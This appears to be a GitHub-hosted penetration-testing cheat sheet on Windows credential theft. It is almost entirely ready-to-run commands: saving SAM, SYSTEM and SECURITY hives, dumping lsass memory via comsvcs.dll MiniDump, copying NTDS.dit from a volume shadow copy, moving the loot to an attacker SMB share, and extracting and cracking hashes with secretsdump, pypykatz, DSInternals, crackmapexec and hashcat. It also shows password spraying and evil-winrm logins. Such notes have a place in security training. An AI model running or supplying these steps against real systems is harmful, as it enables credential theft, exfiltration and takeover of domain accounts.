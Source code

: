 ### Content
- [Transfer Files Technique](#transfer-files-technique)
- [Hash Crack Technique](#hash-crack-technique)
- [Local Attacks](#local-attacks)
	- [SAM Attacks](#sam-attacks)
	- [LSASS Attacks](#lsass-attacks)
	- [Active Directory & NTDS.dit Attacks](#active-directory-&-ntds.dit-attacks)
---
##### Transfer Files Technique
Transfer files from the target to the attacker machine using [Impacket's smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py).
1. Create a Share with smbserver.py on the attacker host
	``` bash
	sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support <shareName> /home/bob/Documents/
	```
2. Move files on the target host to the created share
	``` PowerShell
	C:\> move <FileName> \\<IP>\<shareName>
	```
---
##### Hash Crack Technique
Crack hashes with hashcat. [supported hash types](https://hashcat.net/wiki/doku.php?id=example_hashes)
1. Add NT hashes into text file with each hash in a single line without any additions.
2. Run hashcat against the NT hashes.
	``` bash
	sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
	```
---
# Local Attacks
## SAM Attacks
Dumping the local SAM database from a compromised host. **Local admin privileges required**
- Three registry hives required:
	- `hklm\sam` Contains the hashes associated with local account passwords.
	- `hklm\system` Contains the system bootkey, which is used to encrypt the SAM database.
	- `hklm\security` Contains cached credentials for domain accounts.
- Save the required hives:
	``` PowerShell
	C:\WINDOWS\system32> reg.exe save hklm\sam C:\Windows\Temp\sam.save  
	C:\WINDOWS\system32> reg.exe save hklm\system C:\Windows\Temp\system.save  
	C:\WINDOWS\system32> reg.exe save hklm\security C:\Windows\Temp\security.save
	```
- Use [Transfer Files Technique](#transfer-files-technique) mentioned above to transfer the three hives
- Dump Hashes with Impacket's secretsdump.py
	``` bash
	python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
	```
- Use [Hash Crack Technique](#hash-crack-technique) mentioned above to crack the dumped hashes.

> [!Note]
> CrackMapExec to accomplish the same steps shown above, all with one command.
> `crackmapexec smb <IP> --local-auth -u <UserName> -p <Password> --sam`
## LSASS Attacks
Pulling hashes from memory by dumping the `lsass.exe` process memory.
- In case we have UI access, dump the process memory using the task manager. `lsass.DMP` file created in `C:\Users\loggedonusersdirectory\AppData\Local\Temp`
<img src="https://private-user-images.githubusercontent.com/115187674/394169491-6912e7fd-d4d8-4790-81d4-f6927060a68c.png?jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJnaXRodWIuY29tIiwiYXVkIjoicmF3LmdpdGh1YnVzZXJjb250ZW50LmNvbSIsImtleSI6ImtleTUiLCJleHAiOjE3MzM4MTYxNTMsIm5iZiI6MTczMzgxNTg1MywicGF0aCI6Ii8xMTUxODc2NzQvMzk0MTY5NDkxLTY5MTJlN2ZkLWQ0ZDgtNDc5MC04MWQ0LWY2OTI3MDYwYTY4Yy5wbmc_WC1BbXotQWxnb3JpdGhtPUFXUzQtSE1BQy1TSEEyNTYmWC1BbXotQ3JlZGVudGlhbD1BS0lBVkNPRFlMU0E1M1BRSzRaQSUyRjIwMjQxMjEwJTJGdXMtZWFzdC0xJTJGczMlMkZhd3M0X3JlcXVlc3QmWC1BbXotRGF0ZT0yMDI0MTIxMFQwNzMwNTNaJlgtQW16LUV4cGlyZXM9MzAwJlgtQW16LVNpZ25hdHVyZT1iZTM3ZTQ5NDFjYjU4ZWM4NDRjMTdmNmZhNThkNmRiNDJjNTI2NzRhMjU2NGNlZjk5NjAxNzM1NzI5NDg4MjI0JlgtQW16LVNpZ25lZEhlYWRlcnM9aG9zdCJ9.My2LUJTdvLPIvItX8iuo6loG0BIVgQtRxY0R6h_QhKw">
- In case we have only command-line access, use [Rundll32.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32) & Comsvcs.dll.
	- Find the process PID with `tasklist | findstr lsass.exe`
	``` PowerShell
	rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\Windows\Temp\lsass.dmp full
	```
- Use [Transfer Files Technique](#transfer-files-technique) mentioned above to transfer the process dump.
- Use [Pypykatz](https://github.com/skelsec/pypykatz/blob/main/pypykatz/pypykatz.py) to extract hashes.
	``` bash
	pypykatz lsa minidump /home/peter/Documents/lsass.dmp
	```
- Use [Hash Crack Technique](#hash-crack-technique) mentioned above to crack the dumped hashes.

> [!Note]
> CrackMapExec to accomplish the same steps shown above, all with one command.
> `crackmapexec smb <IP> --local-auth -u <Username> -p <Password> --lsa`
## Active Directory & NTDS.dit Attacks
Extracting hashes from the NTDS database (ntds.dit) on a Domain Controller.
- Lunch Dictionary Attack against AD account to discover working credentials using crackmapexec.
	``` bash
	crackmapexec smb <IP> -u <UserName_wordlist> -p /usr/share/wordlists/fasttrack.txt
	```
- Login to the system using `evil-winrm` with the creds we captured from above
	``` bash
	evil-winrm -i <IP>  -u <UserName> -p '<Password>'
	```

- With access to a domain controller’s file system attacker should exfiltrate:
	- `C:\Windows\NTDS\NTDS.dit`
	- `HKEY_LOCAL_MACHINE\SYSTEM` registry hive, which is required to obtain the `Boot Key` for decrypting `ntds.dit`.

- Attacker needs local admin or Domain Admin privilege, check local priv using `net localgroup` and domain priv using `net user <UserName>`.
- We can't copy the ntds.dit directly as it's always being used by the domain controller, So we will create a shadow copy for the entire drive.

- Use vssadmin to create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (VSS).
	``` Powershell
	*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
	```
- Copy `NTDS.dit` and `HKLM\SYSTEM` from the shadow volume.
	``` Powershell
	*Evil-WinRM* PS C:> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit C:\temp\NTDS.dit
	*Evil-WinRM* PS C:> cmd.exe /c reg SAVE HKLM\SYSTEM C:\temp\SYS
	```
- Create a SMB share as discussed in [Transfer Files Technique](#transfer-files-technique) then transfer `NTDS.dit` and `HKLM\SYSTEM` to the attacker host.
	``` powershell
	*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\temp\NTDS.dit \\<IP>\CompData 
	*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\temp\SYS \\<IP>\CompData
	```
- Use The [DSInternals](https://www.dsinternals.com/en/downloads/) PowerShell module which provides the `Get-BootKey` and `Get-ADDBAccount`.
``` Powershell
PS> $Key = Get-BootKey -SystemHiveFilePath 'Path to the /registry/SYSTEM hive'
PS> Get-ADDBAccount -BootKey $Key -DatabasePath 'NTDS.dit' -All | Out-File Hashdump.txt
# To create a ready list for cracking
PS> Get-ADDBAccount -BootKey $Key -DatabasePath 'NTDS.dit' -All | Format-Custom -View HashcatNT
# If clean state database error occurred, run the following command
PS> ESENTUTL /p 'NTDS.dit' /!10240 /8 /o
```
- Use [Hash Crack Technique](#hash-crack-technique) mentioned above to crack the dumped hashes.

> [!Note]
> CrackMapExec to accomplish the same steps shown above, all with one command.
> `crackmapexec smb <IP> -u <UserName> -p <Password> --ntds`
